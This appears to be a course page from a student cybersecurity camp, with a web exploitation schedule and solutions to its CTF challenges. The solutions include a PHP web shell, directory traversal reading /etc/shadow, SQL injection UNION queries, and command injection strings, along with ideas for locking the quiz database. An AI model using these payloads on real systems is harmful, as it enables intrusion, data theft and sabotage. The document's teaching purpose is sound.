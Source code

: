# Day 2 Schedule: Web Exploitation

| Day | Time                  | Title                                               |   Instructor |
|-----|-----------------------|-----------------------------------------------------|--------------|
| 2   | 09:00-09:15           | Arrival                                             |              |
| 2   | 09:15-09:55           | Web Application Security & OWASP Top 10  |    TJ    |
| 2   | 09:55-10:25           | Web Challeges on spacadets.ctfd.io | |
| 2   | 10:25-10:40           | Snack | |
| 2   | 10:40-11:20           | Man-in-the-middle attacks |    TJ   |
| 2   | 11:20-11:50           | MITM Challenges on spacecadets.ctfd.io | |
| 2   | 11:50-12:50           | Lunch | |
| 2   | 12:50-13:30           | File Based Attacks|   TJ     |
| 2   | 13:30-14:00           | Upload Challenges | |
| 2   | 14:00-14:40           | Injection Based Attacks|   TJ    |
| 2   | 14:40-15:10           | Injection Challenges | |
| 2   | 15:10-15:40           | Think Like an Adversary Activity: Hack This Quiz Activity     |      |
| 2   | 15:40-16:00           | Journaling | |

# References
- [OWASP Prevention Cheat Sheets](https://cheatsheetseries.owasp.org/index.html)
- [OWASP Web Parameter Tampering](https://owasp.org/www-community/attacks/Web_Parameter_Tampering)
- [OWASP Unrestricted File Uploads](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [OWASP Testing for Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
 - [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
 - [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

 ## web: man-in-the-middle

**Discovery-1:** change the ``visits`` cookie to 1,000,0000 to bypass the check at https://spacecadets-discovery-1.chals.io

**Discovery-2:** while there is a check in place to prevent negative betting, it is only performed client-side by javascript. You can bypass it by just modifying the URL parameters ``https://spacecadets-discovery-2.chals.io/?guess=1337&bet=-31337`` and youll see ``Congrats! Here is your flag: flag{moon_landing}``

## web: file-uploads

**Discovery-3:** You can upload a malicious php script that can see the flag. Something like the following.

```php
<?php
$output = shell_exec('cat flag.txt');
echo "<pre>$output</pre>";
?>
```

**Discovery-4:** The problem suffers a local file inclusion via directory traversal. You can navigate to /flag.txt by going to ``https://spacecadets-discovery-4.chals.io/?quote=../../../flag`` to see the flag.

Then fetch the contents from the server, which will trigger executing the php script. Browing ``https://spacecadets-discovery-3.chals.io/trash/tmpnq4orunt.php`` we see the flag ``flag{june_18_1983}``

## web: injection

**Discovery-5:** The first step is discovering the table named that holds the flag. You can do this by querying ``1' union SELECT name FROM sqlite_master WHERE type='table'; --`` which will generate a query that displays the tables including ``locations secrets``. Next, I need to determine the columns in this table so I can do ``32937' union SELECT name FROM pragma_table_info('secrets') --`` which will show that there is a column named ``flags``. Finally I can construct a query to show the flag using ``32937' union select flags from secrets --``

**Discovery-6:** The flag is located in the root directory. You can inject ``ls; cat/ flag.txt`` to display the contents of the flag. 

# Activity: Think Like an Adversary: Hack this Quiz

Potential solutions

**Start with the robots**: ``/robots.txt`` shows some interesting results, including /admin, /submit_scores, /source, /submit_quiz.

**/admin**: automatic win, we can delete users off the score board with this hidden page

**/source**: gives us the source of the web application so we can further investigate it. of particular note, it suffers a local file inclusion vulnerability where ``/source?filename=../etc/shadow`` can arbitrary read files from the entire machine

Examining the source code, we see something interesting with ``/submit_scores``. We can just throw a GET with the right parameters and arbitrarily insert data into the database 

```python
@app.route('/submit_scores')
def submit_scores():
    username = request.args.get('username')
    score = request.args.get('score')
    if (username and score):
        try:
            db = get_db()
            cursor = db.cursor()
            cursor.execute("INSERT INTO scores (username, score) VALUES (?, ?)", (username, score))
            db.commit()
```

So a query like ``submit_scores?username=max&score=100`` will put ``max`` into the database with a score of 100. Yeah!

**/**: there is a command injection bug on the default page. We can discover it by testing some input with special characters like ``",-,'``. Submitting ``bob')"; ls -al; echo "`` will execute the ``ls -al`` command and get the output. We can use this do do things like lock the database chmod 444 quiz.db so that nobody can insert into it. Or we can rewrite the template/scores.html to a static page. Lots of options here

**/quiz** has some interesting quirks. Notably the random number is stored as a cookie, so we can look it up. 
